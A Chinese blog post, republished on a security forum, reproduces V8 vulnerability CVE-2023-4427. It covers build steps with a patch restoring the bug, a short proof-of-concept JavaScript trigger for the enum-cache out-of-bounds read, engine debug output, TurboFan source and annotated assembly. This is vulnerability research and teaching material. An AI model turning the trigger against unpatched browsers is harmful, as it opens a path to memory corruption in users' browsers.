# [v8] CVE-2023-4427 漏洞复现-先知社区

> **来源**: https://xz.aliyun.com/news/17278  
> **文章ID**: 17278

---

# 前言

首发于[个人博客](https://flyyy.top/2025/03/07/CVE-2023-4427/)，感谢网络上分析过这个问题的师傅@Tokameine@XiaozaYa（排名不分先后）

v8学了一段时间，查阅了很多资料，同时收获很多，因此记录一下。

以下内容可能会存在一些错误，如果有问题，恳请各位大佬指正

# 环境搭建

编译debug版本，`is_debug=true`

```
git checkout 12.2.149
gclient sync -D
git apply diff.patch
gn gen out/debug --args="symbol_level=2 blink_symbol_level=2 is_debug=true enable_nacl=false dcheck_always_on=false v8_enable_sandbox=true"
ninja -C out/debug d8
```

编译release版本，`is_debug=false`

```
git checkout 12.2.149
gclient sync -D
git apply diff.patch
gn gen out/release --args="symbol_level=2 blink_symbol_level=2 is_debug=false enable_nacl=false dcheck_always_on=false v8_enable_sandbox=true"
ninja -C out/release d8
```

diff.patch的内容

```
diff --git a/src/objects/map-updater.cc b/src/objects/map-updater.cc
index 7d04b064177..d5f3b169487 100644
--- a/src/objects/map-updater.cc
+++ b/src/objects/map-updater.cc
@@ -1041,13 +1041,6 @@ MapUpdater::State MapUpdater::ConstructNewMap() {
   // the new descriptors to maintain descriptors sharing invariant.
   split_map->ReplaceDescriptors(isolate_, *new_descriptors);
 
-  // If the old descriptors had an enum cache, make sure the new ones do too.
-  if (old_descriptors_->enum_cache()->keys()->length() > 0 &&
-      new_map->NumberOfEnumerableProperties() > 0) {
-    FastKeyAccumulator::InitializeFastPropertyEnumCache(
-        isolate_, new_map, new_map->NumberOfEnumerableProperties());
-  }
-
   if (has_integrity_level_transition_) {
     target_map_ = new_map;
     state_ = kAtIntegrityLevelSource;

```

# 漏洞分析

推荐去看issue页面的description.pdf，讲的很清晰。下面的内容也是由这个pdf展开

## poc验证

在release版本下验证，debug版本有检测，会导致直接carsh

精简了一下poc

```
const object1 = {};
object1.a = 1;
const object2 = {};
object2.a = 1;
object2.b = 1;
const object3 = {};
object3.a = 1;
object3.b = 1;
object3.c = 1;

for (let key in object2) { }

function trigger(callback) {
    for (let key in object2) {
        if (key == 'b'){
            callback();
            console.log(object2[key]);
        }
    }
}

%PrepareFunctionForOptimization(trigger);
trigger(_ => _);
trigger(_ => _);
%OptimizeFunctionOnNextCall(trigger);

trigger(_ => {
    object3.c = 1.1;
    for (let key in object1) { }
});
```

看到这样的输出，就说明环境是没有问题的



## poc分析

首先可以看这样一段代码

```
const object1 = {};
object1.a = 1;
```

不难从下图看出，enum cache所在的位置，object -> map -> DescriptorArray -> enum\_cache



这张图更形象



接着看这一段代码，介绍一下transition chain

```
const object1 = {};
object1.a = 1;
const object2 = {};
object2.a = 1;
object2.b = 1;
const object3 = {};
object3.a = 1;
object3.b = 1;
object3.c = 1;

%DebugPrint(object1);
%DebugPrint(object2);
%DebugPrint(object3);
%SystemBreak();
```

如下输出

```
DebugPrint: 0x235e001c9521: [JS_OBJECT_TYPE]
 - map: 0x235e000d9c8d <Map[28](HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x235e000c4be9 <Object map = 0x235e000c4225>
 - elements: 0x235e000006cd <FixedArray[0]> [HOLEY_ELEMENTS]
 - properties: 0x235e000006cd <FixedArray[0]>
 - All own properties (excluding elements): {
    0x235e00002a21: [String] in ReadOnlySpace: #a: 1 (const data field 0), location: in-object
 }
0x235e000d9c8d: [Map] in OldSpace
 - map: 0x235e000c3d01 <MetaMap (0x235e000c3d51 <NativeContext[285]>)>
 - type: JS_OBJECT_TYPE
 - instance size: 28
 - inobject properties: 4
 - unused property fields: 3
 - elements kind: HOLEY_ELEMENTS
 - enum length: invalid
 - back pointer: 0x235e000c4a1d <Map[28](HOLEY_ELEMENTS)>
 - prototype_validity cell: 0x235e000d9cd5 <Cell value= 0>
 - instance descriptors #1: 0x235e001c95b9 <DescriptorArray[3]>
 - transitions #1: 0x235e000d9cdd <Map[28](HOLEY_ELEMENTS)>
     0x235e00002a31: [String] in ReadOnlySpace: #b: (transition to (const data field, attrs: [WEC]) @ Any) -> 0x235e000d9cdd <Map[28](HOLEY_ELEMENTS)>
 - prototype: 0x235e000c4be9 <Object map = 0x235e000c4225>
 - constructor: 0x235e000c472d <JSFunction Object (sfi = 0x235e003367e5)>
 - dependent code: 0x235e000006dd <Other heap object (WEAK_ARRAY_LIST_TYPE)>
 - construction counter: 0

DebugPrint: 0x235e001c9559: [JS_OBJECT_TYPE]
 - map: 0x235e000d9cdd <Map[28](HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x235e000c4be9 <Object map = 0x235e000c4225>
 - elements: 0x235e000006cd <FixedArray[0]> [HOLEY_ELEMENTS]
 - properties: 0x235e000006cd <FixedArray[0]>
 - All own properties (excluding elements): {
    0x235e00002a21: [String] in ReadOnlySpace: #a: 1 (const data field 0), location: in-object
    0x235e00002a31: [String] in ReadOnlySpace: #b: 1 (const data field 1), location: in-object
 }
0x235e000d9cdd: [Map] in OldSpace
 - map: 0x235e000c3d01 <MetaMap (0x235e000c3d51 <NativeContext[285]>)>
 - type: JS_OBJECT_TYPE
 - instance size: 28
 - inobject properties: 4
 - unused property fields: 2
 - elements kind: HOLEY_ELEMENTS
 - enum length: invalid
 - back pointer: 0x235e000d9c8d <Map[28](HOLEY_ELEMENTS)>
 - prototype_validity cell: 0x235e000d9cd5 <Cell value= 0>
 - instance descriptors #2: 0x235e001c95b9 <DescriptorArray[3]>
 - transitions #1: 0x235e000d9d05 <Map[28](HOLEY_ELEMENTS)>
     0x235e00002a41: [String] in ReadOnlySpace: #c: (transition to (const data field, attrs: [WEC]) @ Any) -> 0x235e000d9d05 <Map[28](HOLEY_ELEMENTS)>
 - prototype: 0x235e000c4be9 <Object map = 0x235e000c4225>
 - constructor: 0x235e000c472d <JSFunction Object (sfi = 0x235e003367e5)>
 - dependent code: 0x235e000006dd <Other heap object (WEAK_ARRAY_LIST_TYPE)>
 - construction counter: 0

DebugPrint: 0x235e001c959d: [JS_OBJECT_TYPE]
 - map: 0x235e000d9d05 <Map[28](HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x235e000c4be9 <Object map = 0x235e000c4225>
 - elements: 0x235e000006cd <FixedArray[0]> [HOLEY_ELEMENTS]
 - properties: 0x235e000006cd <FixedArray[0]>
 - All own properties (excluding elements): {
    0x235e00002a21: [String] in ReadOnlySpace: #a: 1 (const data field 0), location: in-object
    0x235e00002a31: [String] in ReadOnlySpace: #b: 1 (const data field 1), location: in-object
    0x235e00002a41: [String] in ReadOnlySpace: #c: 1 (const data field 2), location: in-object
 }
0x235e000d9d05: [Map] in OldSpace
 - map: 0x235e000c3d01 <MetaMap (0x235e000c3d51 <NativeContext[285]>)>
 - type: JS_OBJECT_TYPE
 - instance size: 28
 - inobject properties: 4
 - unused property fields: 1
 - elements kind: HOLEY_ELEMENTS
 - enum length: invalid
 - stable_map
 - back pointer: 0x235e000d9cdd <Map[28](HOLEY_ELEMENTS)>
 - prototype_validity cell: 0x235e000d9cd5 <Cell value= 0>
 - instance descriptors (own) #3: 0x235e001c95b9 <DescriptorArray[3]>
 - prototype: 0x235e000c4be9 <Object map = 0x235e000c4225>
 - constructor: 0x235e000c472d <JSFunction Object (sfi = 0x235e003367e5)>
 - dependent code: 0x235e000006dd <Other heap object (WEAK_ARRAY_LIST_TYPE)>
 - construction counter: 0
```

其中这里描述了obj1和obj2的transitions的相关信息

```
- transitions #1: 0x235e000d9cdd <Map[28](HOLEY_ELEMENTS)>
     0x235e00002a31: [String] in ReadOnlySpace: #b: (transition to (const data field, attrs: [WEC]) @ Any) -> 0x235e000d9cdd <Map[28](HOLEY_ELEMENTS)>

 - transitions #1: 0x235e000d9d05 <Map[28](HOLEY_ELEMENTS)>
     0x235e00002a41: [String] in ReadOnlySpace: #c: (transition to (const data field, attrs: [WEC]) @ Any) -> 0x235e000d9d05 <Map[28](HOLEY_ELEMENTS)>
```

第一个说明当前map添加了一个b属性，然后向下转化为新的map 0x235e000d9cdd，也就是obj2的map

第二个说明当前map添加了一个c属性，然后向下转化为新的map 0x235e000d9d05，也就是obj3的map

下面是更为详细的图



三个对象共享一个`DescriptorArray`，然后其中的`enum cacahe`也是一样的

下面初始化一下`enum cache`

```
const object1 = {};
object1.a = 1;
const object2 = {};
object2.a = 1;
object2.b = 1;
const object3 = {};
object3.a = 1;
object3.b = 1;
object3.c = 1;

for (let key in object2) { }

%DebugPrint(object1);
%DebugPrint(object2);
%DebugPrint(object3);
%SystemBreak();
```

输出

```
pwndbg> job 0x2243001c95d9
0x2243001c95d9: [DescriptorArray]
 - map: 0x22430000062d <Map(DESCRIPTOR_ARRAY_TYPE)>
 - enum_cache: 2
   - keys: 0x2243000d9d41 <FixedArray[2]>
   - indices: 0x2243000d9d51 <FixedArray[2]>
 - nof slack descriptors: 0
 - nof descriptors: 3
 - raw gc state: mc epoch 0, marked 0, delta 0
  [0]: 0x224300002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 2, attrs: [WEC]) @ Any
  [1]: 0x224300002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 1, attrs: [WEC]) @ Any
  [2]: 0x224300002a41: [String] in ReadOnlySpace: #c (const data field 2:s, p: 0, attrs: [WEC]) @ Any
```

V8 将 for...in 循环转换为常规 for 循环，并使用三个关键操作来执行：ForInEnumerate、ForInPrepare 和 ForInNext。ForInEnumerate 和 ForInPrepare 共同收集目标对象的所有可枚举属性名，并将它们存储到一个固定数组（fixed array）中，同时设置适当的上限（即属性的数量），作为隐式循环变量的上界。这个隐式变量还充当该固定数组的索引，所以在每次迭代时，ForInNext 都会从当前索引处加载键（key），然后将其赋值给用户可见的变量。



poc的触发函数

```
function trigger(callback) {
    for (let key in object2) {
        if (key == 'b'){
            callback();
            console.log(object2[key]);
        }
    }
}
```

接着去vscode全局搜索`Reduction JSNativeContextSpecialization::ReduceJSLoadPropertyWithEnumeratedKey`，查看问题代码

```
Reduction JSNativeContextSpecialization::ReduceJSLoadPropertyWithEnumeratedKey(
    Node* node) {
  // We can optimize a property load if it's being used inside a for..in:
  //   for (name in receiver) {
  //     value = receiver[name];
  //     ...
  //   }
  //
  // If the for..in is in fast-mode, we know that the {receiver} has {name}
  // as own property, otherwise the enumeration wouldn't include it. The graph
  // constructed by the BytecodeGraphBuilder in this case looks like this:

  // receiver
  //  ^    ^
  //  |    |
  //  |    +-+
  //  |      |
  //  |   JSToObject
  //  |      ^
  //  |      |
  //  |      |
  //  |  JSForInNext
  //  |      ^
  //  |      |
  //  +----+ |
  //       | |
  //       | |
  //   JSLoadProperty

  // If the for..in has only seen maps with enum cache consisting of keys
  // and indices so far, we can turn the {JSLoadProperty} into a map check
  // on the {receiver} and then just load the field value dynamically via
  // the {LoadFieldByIndex} operator. The map check is only necessary when
  // TurboFan cannot prove that there is no observable side effect between
  // the {JSForInNext} and the {JSLoadProperty} node.
  //
  // Also note that it's safe to look through the {JSToObject}, since the
  // [[Get]] operation does an implicit ToObject anyway, and these operations
  // are not observable.

  DCHECK_EQ(IrOpcode::kJSLoadProperty, node->opcode());
  Node* receiver = NodeProperties::GetValueInput(node, 0);
  JSForInNextNode name(NodeProperties::GetValueInput(node, 1));
  Node* effect = NodeProperties::GetEffectInput(node);
  Node* control = NodeProperties::GetControlInput(node);

  if (name.Parameters().mode() != ForInMode::kUseEnumCacheKeysAndIndices) {
    return NoChange();
  }

  Node* object = name.receiver();
  Node* cache_type = name.cache_type();
  Node* index = name.index();
  if (object->opcode() == IrOpcode::kJSToObject) {
    object = NodeProperties::GetValueInput(object, 0);
  }
  if (object != receiver) return NoChange();

  // No need to repeat the map check if we can prove that there's no
  // observable side effect between {effect} and {name].
  if (!NodeProperties::NoObservableSideEffectBetween(effect, name)) {
    // Check that the {receiver} map is still valid.
    Node* receiver_map = effect =
        graph()->NewNode(simplified()->LoadField(AccessBuilder::ForMap()),
                         receiver, effect, control);
    Node* check = graph()->NewNode(simplified()->ReferenceEqual(), receiver_map,
                                   cache_type);
    effect =
        graph()->NewNode(simplified()->CheckIf(DeoptimizeReason::kWrongMap),
                         check, effect, control);
  }

  // Load the enum cache indices from the {cache_type}.
  Node* descriptor_array = effect = graph()->NewNode(
      simplified()->LoadField(AccessBuilder::ForMapDescriptors()), cache_type,
      effect, control);
  Node* enum_cache = effect = graph()->NewNode(
      simplified()->LoadField(AccessBuilder::ForDescriptorArrayEnumCache()),
      descriptor_array, effect, control);
  Node* enum_indices = effect = graph()->NewNode(
      simplified()->LoadField(AccessBuilder::ForEnumCacheIndices()), enum_cache,
      effect, control);

  // Ensure that the {enum_indices} are valid.
  Node* check = graph()->NewNode(
      simplified()->BooleanNot(),
      graph()->NewNode(simplified()->ReferenceEqual(), enum_indices,
                       jsgraph()->EmptyFixedArrayConstant()));
  effect = graph()->NewNode(
      simplified()->CheckIf(DeoptimizeReason::kWrongEnumIndices), check, effect,
      control);

  // Determine the key from the {enum_indices}.
  Node* key = effect = graph()->NewNode(
      simplified()->LoadElement(
          AccessBuilder::ForFixedArrayElement(PACKED_SMI_ELEMENTS)),
      enum_indices, index, effect, control);

  // Load the actual field value.
  Node* value = effect = graph()->NewNode(simplified()->LoadFieldByIndex(),
                                          receiver, key, effect, control);
  ReplaceWithValue(node, value, effect, control);
  return Replace(value);
}
```

注释中将优化的过程讲的很清楚，首先`receiver`会被`JSToObject`转化为对象，然后调用`ForInNext`加载key，接着通过`JSLoadProperty`去加载`value`

优化完毕之后，就会走第二条路径，从`receiver`到`JSLoadProperty`，但此时的`JSLoadProperty`会变成`map check`，也就是说如果`map`没发生变化，那么就会继续执行后面的流程，也就是从`enum cache`中调用，但是如果`map`发生了变化，那么就会重新进行优化。

接着是`trigger`的调用

```
 trigger(_ => {
 object3.c = 1.1;
```

这里先通过`obj3`的赋值，导致了`enum cache`的消失，此时的`obj1`和`obj2`的`enum cache`就会变成`invaild`，但是还是存在于内存里。然后`obj3`会创建新的`map`，此时的三个obj共享一个新的`descriptor array`



```
for (let key in object1) { }
 });
```

然后去初始化`obj1`的`enum cache`，但此时的`obj2`和`obj3`的`enum cache`都为`invalid`，这里之后会进入`trigger`函数的函数体，执行的是遍历`obj2`，此时会去检查`obj2`的`map`，发现其实没有变化，然后会载入`enum cache`的长度，这个长度是根据`map`来确定的，因此`length`本应该是1，但是这里载入了原本map上的enum cache的length，这样就造成了溢出

下图就是攻击的原理图



## 调试相关

> release版本没有job的显示，只有debug版本有，所以只能release和debug对着调

调试一下上面涉及到的原理

调试的poc

```
function stop(){
    %SystemBreak();
}

function p(arg){
    %DebugPrint(arg);
}

const object1 = {};
object1.a = 1;
const object2 = {};
object2.a = 2;
object2.b = 3;
const object3 = {};
object3.a = 4;
object3.b = 5;
object3.c = 6;

for (let key in object2) { } 
p(object1);
p(object2);
p(object3);
stop();

function trigger(callback) {
    console.log("trigger");
    stop();
    for (let key in object2) {
        callback();
        console.log(object2[key]);
    }
}

% PrepareFunctionForOptimization(trigger);
trigger(_ => _);
trigger(_ => _);
% OptimizeFunctionOnNextCall(trigger);

trigger(_ => {
    object3.c = 1.1;
    for (let key in object1) { }
});
```

在执行输出trigger时，下断点`b Builtins_ForInEnumerate`，然后连续3次c，接着finish执行完`Builtins_ForInEnumerate`，然后会发现返回值会将obj2的map赋值给rcx



接着就是对于下面指令的解释

```
=> 0x55ece00040ff:      mov    rcx,rax
   0x55ece0004102:      mov    r8d,DWORD PTR [rcx-0x1]
   0x55ece0004106:      cmp    r8d,0x565
   0x55ece000410d:      je     0x55ece0004592
   0x55ece0004113:      mov    r8d,DWORD PTR [rcx+0x17]            取instance descriptors 
   0x55ece0004117:      mov    r8d,DWORD PTR [r14+r8*1+0xb]        取EnumCache
   0x55ece000411c:      mov    r8d,DWORD PTR [r14+r8*1+0x3]        取EnumCache.keys
   0x55ece0004121:      add    r8,r14
   0x55ece0004124:      mov    r9d,DWORD PTR [rcx+0xb]                       取enum length，这里的rcx就是原本的map，也就是说enum length是通过原本的length来索引的
   0x55ece0004128:      and    r9d,0x3ff                                                     计算，取map上length的低10位
   0x55ece000412f:      mov    QWORD PTR [rbp-0x28],rax            放map到栈上
   0x55ece0004133:      mov    QWORD PTR [rbp-0x30],r8                       放对应的enum cache到栈上
   0x55ece0004137:      mov    QWORD PTR [rbp-0x38],r9                       放enum length到栈
   0x55ece000413b:      test   r9d,r9d
   0x55ece000413e:      ja     0x55ece000414d
   0x55ece0004144:      lea    rax,[r14+0x61]
   0x55ece0004148:      jmp    0x55ece00043c7
   0x55ece000414d:      movabs r11,0x3d0400049729
   0x55ece0004157:      cmp    DWORD PTR [r11-0x1],ecx
   0x55ece000415b:      jne    0x55ece0004596
   0x55ece0004161:      mov    r12d,DWORD PTR [r8+0x7]
   0x55ece0004165:      lea    rax,[r14+0x61]
   0x55ece0004169:      push   rax
   0x55ece000416a:      mov    QWORD PTR [rbp-0x48],r12
   0x55ece000416e:      mov    rdi,QWORD PTR [rbp+0x18]
   0x55ece0004172:      mov    eax,0x1
   0x55ece0004177:      movabs rsi,0x3d0400183d51
   0x55ece0004181:      call   0x55ec8709c140 <Builtins_Call_ReceiverIsNullOrUndefined>
   0x55ece0004186:      mov    rcx,QWORD PTR [rbp-0x28]
   0x55ece000418a:      movabs r8,0x3d0400049729
   0x55ece0004194:      cmp    DWORD PTR [r8-0x1],ecx
   0x55ece0004198:      jne    0x55ece000459a
   0x55ece000419e:      mov    r9d,DWORD PTR [rcx+0x17]                    取instance descriptors 
   0x55ece00041a2:      mov    r9d,DWORD PTR [r14+r9*1+0xb]        取EnumCache
   0x55ece00041a7:      mov    r9d,DWORD PTR [r14+r9*1+0x7]              取EnumCache.indices
   0x55ece00041ac:      add    r9,r14
   0x55ece00041af:      cmp    r9d,0x6cd
   0x55ece00041b6:      je     0x55ece000459e
   0x55ece00041bc:      mov    r9d,DWORD PTR [r9+0x7]                            取取EnumCache.indices[0]
   0x55ece00041c0:      sar    r9d,1
   0x55ece00041c3:      movsxd r11,r9d
   0x55ece00041c6:      mov    r12,r11
   0x55ece00041c9:      and    r12d,0x1
   0x55ece00041cd:      mov    r12d,r12d
   0x55ece00041d0:      test   r12d,r12d
   0x55ece00041d3:      jne    0x55ece000440a
   0x55ece00041d9:      test   r9d,r9d
   0x55ece00041dc:      jl     0x55ece00041ef
   0x55ece00041e2:      mov    r9d,DWORD PTR [r8+r11*2+0xb]
   0x55ece00041e7:      add    r9,r14
   0x55ece00041ea:      jmp    0x55ece0004201
   0x55ece00041ef:      mov    r9d,DWORD PTR [r8+0x3]
   0x55ece00041f3:      add    r9,r14
   0x55ece00041f6:      neg    r11
   0x55ece00041f9:      mov    r9d,DWORD PTR [r9+r11*2+0x3]
   0x55ece00041fe:      add    r9,r14
   0x55ece0004201:      movabs r11,0x3d04001871b1
   0x55ece000420b:      mov    esi,DWORD PTR [r11+0x13]
   0x55ece000420f:      add    rsi,r14
   0x55ece0004212:      push   r9
   0x55ece0004214:      movabs r9,0x3d04001870e9
   0x55ece000421e:      push   r9
   0x55ece0004220:      lea    r12,[r14+0x6e9]
   0x55ece0004227:      push   r12
   0x55ece0004229:      push   0xc
   0x55ece000422b:      push   r11
   0x55ece000422d:      lea    rax,[r14+0x61]
   0x55ece0004231:      push   rax
   0x55ece0004232:      mov    rbx,QWORD PTR [rip+0xfffffffffffffe6b]        # 0x55ece00040a4
   0x55ece0004239:      mov    eax,0x6
   0x55ece000423e:      call   0x55ec8713c340 <Builtins_CEntry_Return1_ArgvOnStack_BuiltinExit>
   0x55ece0004243:      cmp    BYTE PTR [r13-0x4f],0x0
   0x55ece0004248:      jne    0x55ece00044ad
   0x55ece000424e:      mov    ecx,0x1
   0x55ece0004253:      jmp    0x55ece0004283
   0x55ece0004258:      nop    WORD PTR [rax+rax*1+0x0]
   0x55ece0004261:      nop    WORD PTR [rax+rax*1+0x0]
   0x55ece000426a:      nop    WORD PTR [rax+rax*1+0x0]
   0x55ece0004273:      nop    WORD PTR [rax+rax*1+0x0]
   0x55ece000427c:      nop    DWORD PTR [rax+0x0]
   0x55ece0004280:      mov    ecx,DWORD PTR [rbp-0x40]
   0x55ece0004283:      lea    rax,[r14+0x61]
   0x55ece0004287:      mov    r8,QWORD PTR [rbp-0x28]
   0x55ece000428b:      mov    r11,QWORD PTR [rbp-0x30]
   0x55ece000428f:      movabs r12,0x3d04001871b1
   0x55ece0004299:      lea    rbx,[r14+0x6e9]
   0x55ece00042a0:      movabs r15,0x3d04001870e9
   0x55ece00042aa:      movabs r9,0x3d0400049729
   0x55ece00042b4:      cmp    ecx,DWORD PTR [rbp-0x38]
   0x55ece00042b7:      jae    0x55ece00043c7
   0x55ece00042bd:      lea    edx,[rcx+0x1]
   0x55ece00042c0:      cmp    DWORD PTR [r9-0x1],r8d
   0x55ece00042c4:      jne    0x55ece00045a2
   0x55ece00042ca:      mov    esi,DWORD PTR [r11+rcx*4+0x7]
   0x55ece00042cf:      push   rax
   0x55ece00042d0:      mov    QWORD PTR [rbp-0x48],rcx
   0x55ece00042d4:      mov    QWORD PTR [rbp-0x40],rdx
   0x55ece00042d8:      mov    QWORD PTR [rbp-0x50],rsi
   0x55ece00042dc:      mov    rdi,QWORD PTR [rbp+0x18]
   0x55ece00042e0:      mov    eax,0x1
   0x55ece00042e5:      movabs rsi,0x3d0400183d51
   0x55ece00042ef:      call   0x55ec8709c140 <Builtins_Call_ReceiverIsNullOrUndefined>
   0x55ece00042f4:      mov    rcx,QWORD PTR [rbp-0x28]
